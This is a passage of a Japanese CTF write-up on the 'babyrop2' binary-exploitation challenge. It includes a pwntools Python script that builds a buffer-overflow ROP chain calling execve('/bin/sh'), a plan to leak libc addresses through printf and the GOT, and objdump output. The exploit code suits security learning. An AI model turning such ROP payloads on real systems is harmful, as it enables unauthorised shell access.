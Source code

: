 でやってみる。
まぁASLRあるんだろうなーと思いつつ、gdb上でASLRを無効にした状態ではシェルが起動することは確認。
```
import sys
import pwn

addr_libc_start_main = 0x0000000000021ab0
addr_libc_execve = 0x00000000000e4e30
addr_libc_binsh = 0x1b3e9a
addr_start_main = 0x7ffff7a05ab0

addr_offset = addr_start_main - addr_libc_start_main
addr_execve = addr_offset + addr_libc_execve
addr_binsh = addr_offset + addr_libc_binsh

rop_pop_rdi = 0x0000000000400733
rop_pop_rsi = 0x0000000000400731

s = b"A" * 40
#s += pwn.p64(0x40063a)
s += pwn.p64(rop_pop_rdi)
s += pwn.p64(addr_binsh)
s += pwn.p64(rop_pop_rsi)
s += pwn.p64(0x0)
s += pwn.p64(0x0)
s += pwn.p64(addr_execve)

sys.stdout.buffer.write(s)
```

### アドレスのリーク

で、これをremoteに送り込むコードを書いたがやはり動かない。
ASLRが有効なんだろう。
最近はもはやASLRが無効の問題なんて出ないんだろうか。

以前putsを使ったアドレスリークはしたことがあったのだが、今回はputsが無いようす。
どうするか...
といろいろぐぐったり考えたりしてたらprintfで%sの時にGOTアドレス入れれば行けるんじゃね？
と思いつく。

戦略は
1. ROPで「printf("Welcome to the Pwn World again, %s!", printfのGOTアドレス);」を実行してprintfのロードアドレスを%sから吐かせる
2. 吐かせたprintfのロードアドレスからlibcがロードされてるアドレスを特定
3. libcがロードされているアドレスを基準にexecveと/bin/shのロードアドレスを求めてROPでシェルを起動

と立てた。

と、このように、うっかりprintfのGOT (Global Offset Table)アドレスを追ってしまったのがまずかった...
printfを呼び出すためにprintfのPLT (Procedure Linkage Table)は確認でいていたのでprintfのlibc上のアドレスを追ってしまった。
これが間違いのもとで、objdump -d ./babyrop2するとどれがprintfに一致するのか分からない関数がたくさん出て来た。
これで時間を消費してしまってタイムアップ。

```bash-statement
$ objdump -d libc.so.6 | grep printf | egrep "^0"
000000000004d170 <_IO_vfprintf@@GLIBC_2.2.5>:
0000000000050060 <vprintf@@GLIBC_2.2.5>:
0000000000052bc0 <__printf_fp@@GLIBC_2.2.5>:
0000000000052be0 <register_printf_specifier@@GLIBC_2.10>:
0000000000052cf0 <register_printf_function@@GLIBC_2.2.5>:
0000000000052d00 <parse_printf_format@@GLIBC_2.2.5>:
0000000000054a50 <register_printf_modifier@@GLIBC_2.10>:
0000000000054db0 <register_printf_type@@GLIBC_2.10>:
0000000000054ea0 <printf_size@@GLIBC_2.2.5>:
0000000000055750 <printf_size_info@@GLIBC_2.2.5>:
0000000000055770 <fprintf@@GLIBC_2.2.5>:
0000000000055800 <_IO_printf@@GLIBC_2.2.5>:
```